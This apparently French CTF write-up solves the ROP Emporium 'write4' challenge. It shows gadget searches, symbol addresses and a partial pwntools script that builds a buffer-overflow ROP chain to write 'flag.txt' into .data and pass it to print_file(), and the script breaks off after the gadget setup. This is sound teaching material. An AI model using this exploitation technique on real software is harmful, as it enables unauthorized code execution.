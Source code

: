Nous remarquons que nous avons 2 segments avec le **flag W** (écriture) d'activé. Par exemple, écrivons la string **flag.txt** dans le segment `.data`. (nous pouvons aussi utiliser .bss)

Récupérons l'adresse du segment :

```py
❯ readelf -s write4 | grep .data
     5: 0000000000601038     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    48: 0000000000601028     0 NOTYPE  WEAK   DEFAULT   23 data_start
    49: 0000000000601038     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    52: 0000000000601028     0 NOTYPE  GLOBAL DEFAULT   23 __data_start
```

L'adresse de ce dernier est `0x601028`.

Maintenant, nous devons trouver un moyen de setup flag.txt dans .data. Pour cela nous avons 2 gadgets intéressants `pop r14 ; pop 15 ; ret` et `mov qword ptr [r14], r15 ; ret` :

```py
❯ ROPgadget --binary write4
<...>
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
<...>
```

- Le but va etre d'empiler **l'adresse du segment writable** (.data) et la string **flag.txt** grace au buffer overflow, de setup ses valeurs dans 2 registres (ici r14 et r15) à l'aide d'un pop, puis de copier la valeur pointé dans l'opérande source (r15 qui pointe vers flag.txt) dans l'opérande de destination. (r14 qui pointe vers l'adresse de .data)
Ainsi, notre string flag.txt sera stocké à l'adresse du segment .data.

Rappel : pop permet de désempiler de la stack la valeur pointé dans RSP et déplacer cette valeur dans l'opérande indiquée.

Une fois que nous avons flag.txt dans notre binaire, il nous suffit simplement de passer en argument cette chaine à la fonction `print_file()`. Alors nous avons besoin d'un gadget `pop rdi ; ret` et évidemment de l'adresse de la fonction `print_file()` :

```py
❯ ROPgadget --binary write4 | grep "pop rdi ; ret"
0x0000000000400693 : pop rdi ; ret
❯ objdump -d write4 | grep print_file
0000000000400510 <print_file@plt>:
  400510:       ff 25 0a 0b 20 00       jmpq   *0x200b0a(%rip)        # 601020 <print_file>
  400620:       e8 eb fe ff ff          callq  400510 <print_file@plt>
```

Voici le schéma de notre payload :

![](https://i.imgur.com/iWC7qYj.png)

Afin d'automatiser notre exploitation j'ai développé un petit script en Python toujours avec la [librairie pwntools](https://github.com/Gallopsled/pwntools) :

```py
from pwn import *

context.update(arch="amd64", os="linux", bits=64)
p = process("./write4", stdin=PTY)
elf = ELF("./write4")
rop = ROP("./write4")

padding = cyclic(40)

data_segment = p64(elf.symbols["data_start"]) # readelf -s write4
flag_string = b"flag.txt"

pop_r14_pop_r15 = p64((rop.find_gadget(["pop r14", "pop r15", "ret"]))[0])
mov_ptr_r14_r15 = p64(0x400628)
```